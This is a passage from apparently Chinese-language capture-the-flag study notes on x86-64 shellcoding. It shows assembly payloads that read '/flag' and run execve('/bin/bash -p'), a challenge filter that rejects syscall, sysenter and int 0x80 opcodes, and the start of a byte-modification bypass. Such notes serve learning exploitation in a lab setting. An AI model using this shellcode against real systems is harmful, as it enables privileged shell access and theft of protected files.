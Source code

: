 ```python
        pop rdi
        push 0x100
        pop r10
        mov eax,0x28
        syscall
        jmp end
    two:
        call one
        .string "/flag" 
    end:
```
## ⭐execve()—使用pop,push构造参数数组 
> execve(/bin/sh，[/bin/sh  -p]，0) 大致是这样构造的 ；参见[（二）笔记](https://www.yuque.com/hacker_muye.com/xwoluc/fsom3afzggf9pu0e)

```python
    jmp two
one:
    pop rdi // get file path,the 1st arg

    push 0x0  //end of -p
    push 0x702d // -p
    push rsp   // addr of -p
    pop rdx // rdx <- addr
    
    push 0x0  //end of argv
    push rdx  //addr of -p
    push rdi  //addr of /bin/sh
    push rsp  //addr of argv
    pop rsi   //rsi <- addr of argv,the 2st arg
    
    push 0x0  //envp
    pop rdx   //rdx <- 0
    push 0x3b 
    pop rax   //rax <- 0x3b
    
    syscall
two:
    call one
    .string "/bin/bash"
```
# ⭐level 5 禁用 syscall、sysenter、int
> Tips：syscall 效果  **＝** 将系统调用 syscall 系统调用号放入寄存器 + call / jmp xxx【寄存器】，但是很难再回去【即仅能调用一次】

```c
    for (int i = 0; i < shellcode_size; i++)
    {
        uint16_t *scw = (uint16_t *)((uint8_t*)shellcode_mem + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)     // 0F 05——syscall
        {															// 0F 34——sysenter
            printf("Failed filter at byte %d!\n", i);				// CD 80——int 128
            exit(1);
        }
    }
```
## 动态修改字节
```python
mov rdi,0x67616C662F2E
xor rsi,rsi
xor rdx,rdx
mov rax,0x2
```